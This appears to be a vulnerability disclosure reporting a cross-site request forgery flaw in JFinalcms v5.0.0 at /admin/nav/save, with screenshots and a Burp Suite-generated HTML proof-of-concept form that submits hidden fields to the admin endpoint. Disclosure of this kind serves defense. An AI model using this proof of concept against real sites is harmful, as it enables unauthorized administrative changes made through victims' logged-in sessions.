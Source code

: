 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/nav/save

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/105e5fb4-a839-4ce3-8be1-20010193b5c1)




create poc 

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/659e374a-e322-463b-80b2-0a3405ab9631)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/nav/save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="parentId" value="" />
      <input type="hidden" name="image" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="" />
      <input type="hidden" name="isOutlink" value="0" />
      <input type="hidden" name="sort" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/ysuzhangbin/cms/assets/27912238/1c4f298d-a941-4821-8972-0b49656ace3f)


